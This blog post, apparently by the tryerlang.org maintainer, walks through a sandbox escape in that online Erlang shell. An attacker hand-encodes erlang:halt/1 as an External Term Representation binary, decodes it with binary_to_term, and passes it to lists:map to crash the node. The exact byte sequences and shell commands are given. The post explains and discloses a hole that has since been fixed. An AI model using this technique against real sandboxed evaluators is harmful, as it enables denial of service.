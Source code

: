 ```yaml
---
layout: post
title: "How they tried to fool tryerlang.org"
date: 2010-10-14 00:00
categories: erlang
comments: true
---
```


<h2>Preface</h2>

<a title="tryerlang.org" href="http://tryerlang.org" target="_blank">tryerlang.org</a> is an _interactive Erlang Shell_ which allows users to try the power of Erlang directly in a browser, without requiring them to install an Erlang runtime system on their machine. Even if intended for Erlang newbies, tryerlang.org has been subjected to a countless number of attacks conducted by Erlang experts who wanted to circumvent its sandboxing mechanism and to bring down the Erlang node running the application. I must admit that going through the tryerlang.org's logs is being an highly interesting and constructive experience.

In this blog post I will present one of the most elaborated attacks performed on tryerlang.org. The attack, which exploits the Erlang _External Term Representation_, has been performed by a former <a href="http://www.erlang-solutions.com" target="_blank">Erlang Solutions</a>' employee who had access to the tryerlang.org source code. To understand how the attack works, we need to introduce the Erlang _External Term Representation_.

<h2>External Term Representation</h2>

In Distributed Erlang, terms can be transferred from an Erlang node to another one using the so-called _binary_ format. Generic terms are encoded in binary from the sender using the built-in function <code>term_to_binary/1</code> and restored from the receiver using the complementary function <code>binary_to_term/2</code>. A binary message looks like this:

<pre>
<<131,100,0,6,112,105,103,101,111,110>>
</pre>

Which, as you can see, represents the binary encoding of the atom <code>pigeon</code>.

<pre>
1&gt; term_to_binary(pigeon).
&lt;&lt;131,100,0,6,112,105,103,101,111,110&gt;&gt;
2&gt; binary_to_term(&lt;&lt;131,100,0,6,112,105,103,101,111,110&gt;&gt;).
pigeon
</pre>

The _External Term Representation_ of Erlang terms is extensively documented in <a title="Erlang External Term Representation" href="http://www.erlang.org/doc/apps/erts/erl_ext_dist.html" target="_blank">the official Erlang Documentation</a>. Let's see how the attacker used this concept in his own interest.

<h2>Halting the Erlang Node</h2>

To stop the Erlang node running tryerlang.org, the attacker tries at first the following command:

<pre>
&gt; erlang:halt().
</pre>

This function, documented <a title="Erlang Halt" href="http://www.erlang.org/doc/man/erlang.html#halt-0" target="_blank">here</a>, is supposed to _halt_ an Erlang runtime system, indicating a normal exit to the calling environment. The function has been disabled in tryerlang.org for security reasons, so the only result the user get is the following annoying message:

<pre>
"This functionality has been disabled for security reasons in tryerlang.org.".
</pre>

So, the Erlang node is still up and attacker prepares himself a good cup of Swedish coffee. After a couple of minutes playing with the tryerlang.org shell, the attcker notices that tryerlang.org allows you to define custom <a title="Erlang Funs" href="http://www.erlang.org/doc/programming_examples/funs.html" target="_blank">funs</a>. Then, the intuition. A _fun_, as any other Erlang term, <a title="export_ext" href="http://www.erlang.org/doc/apps/erts/erl_ext_dist.html#id83276" target="_blank">can be encoded using the External Terms Representation</a>. The encoded fun could then be executed. This could hopefully fool the sandboxing mechanism protecting the tryerlang.org and could open a world of possibilities to the attacker.

According to the documentation, the external representation of the fun (in the <code>fun M:F/A</code> format) is the following:

<pre>
113 | Module | Function | Arity
</pre>

Where <code>Module</code> and <code>Function</code> are atoms and <code>Arity</code> is an integer.

Atoms themselves can be encoded using the <a title="atom ext" href="http://www.erlang.org/doc/apps/erts/erl_ext_dist.html#ATOM_EXT" target="_blank">ATOM_EXT</a> format:

<pre>
100 | Len | AtomName
</pre>

Where <code>Len</code> is the length of <code>AtomName</code>, expressed using two bytes.

For the atom <code>erlang</code>, which is composed of 6 characters (the letters <code>e</code>, <code>r</code>, <code>l</code>, <code>a</code>, <code>n</code> and <code>g</code>) we obtain:

<pre>
100 | 0, 6 | 101, 114, 108, 97, 110, 103
</pre>

Where the integers in the third section are the ASCII codes for each of the letters composing the word "erlang".

Applying the same reasoning to the atom <code>halt</code>, we obtain:

<pre>
100 | 0, 4 | 104, 97, 108, 116
</pre>

Finally, the arity (an integer) can be encoded using the <a title="small integer ext" href="http://www.erlang.org/doc/apps/erts/erl_ext_dist.html#id80902" target="_blank">SMALL_INTEGER_EXT</a> format:

<pre>
97 | Int
</pre>

So, in our case (arity = 0) we obtain:

<pre>
97 | 0
</pre>

Putting all the pieces together and considering that, in the External Term Representation, the byte <code>131</code> needs to be prepended to the final term, we can encode the <code>erlang:halt/</code>0 function into binary, obtaining:

<pre>
&lt;&lt;131,113,100,0,6,101,114,108,97,110,103,100,0,4,104,97,108,116,97,0&gt;&gt;
</pre>

Let's verify that we didn't do any mistake:

<pre>
&gt; binary_to_term(&lt;&lt;131,113,100,0,6,101,114,108,97,110,103,100,0,4,104,97,108,116,97,0&gt;&gt;).
&gt; #Fun&lt;erlang.halt.0&gt;
</pre>

Since tryerlang.org doesn't support copy-and-paste from the clipboard, we need to insert the sequence above by hand.

We can bind the binary to a new variable:
<pre>
&gt; B = &lt;&lt;131,113,100,0,6,101,114,108,97,110,103,100,0,4,104,97,108,116,97,0&gt;&gt;.
</pre>

We now need to convert the binary into an Erlang term. Originally, tryerlang.org was allowing <a title="Erlang Safe Binary To Term" href="http://www.erlang.org/doc/man/erlang.html#binary_to_term-2" target="_blank">the binary_to_term function in safe mode</a>. This function has been now completely disabled after this attack. If you want to try what follows you will need to do it in your own Erlang shell.

<pre>
&gt; F = binary_to_term(B, [safe]).
</pre>

Let's now try to launch the fun as:

<pre>
&gt;F().
</pre>

Well, that didn't work as expected. tryerlang.org actually realized that the <code>erlang:halt/0</code> function was going to be called and the sandboxing mechanism managed to block the execution of the command. We need to do something slightly different. For example, we might pass the newly defined fun as an argument (after all, Erlang is a functional language) to a function who would take care of executing it. As an example, we could use the library function <code>lists:map/2</code>. There's only a little tiny problem with that. The <code>list:map/2</code> function, in fact, requires that the fun passed as an argument receives _exactly one argument_. This is not the case of the <code>erlang:halt/0</code> function, which has arity equal to zero. Fortunately <a href="http://www.erlang.org/doc/man/erlang.html#halt-1" target="_blank">an alternative version of <code>erlang:halt/0</code> exists, taking exactly one argument</a>. The external representation for the new function differs from the previous one by only the very last byte. Let's _forget_ the old value of the variable <code>B</code> and let's bind it to the new binary:

<pre>
&gt; f(B).
&gt; B = &lt;&lt;131,113,100,0,6,101,114,108,97,110,103,100,0,4,104,97,108,116,97,1&gt;&gt;.
</pre>

We can now pass the new fun as an argument to the <code>lists:map</code> function:

<pre>
&gt; f(F).
&gt; F = binary_to_term(B, [safe]).
&gt;lists:map(F, [0]).
</pre>

And the node dies. Well, in reality the node is almost immediately brought back by <a title="Erlang Heart" href="http://www.erlang.org/doc/man/heart.html" target="_blank">heart</a> which is listening for heartbeats from the Erlang node itself but, hey, I have to pay a beer to this guy! :)

I wanted to share this experience with all of you. I consider it highly constructive, since it leads to reflect on several aspects of Erlang. Comments and feedback are more than welcome.
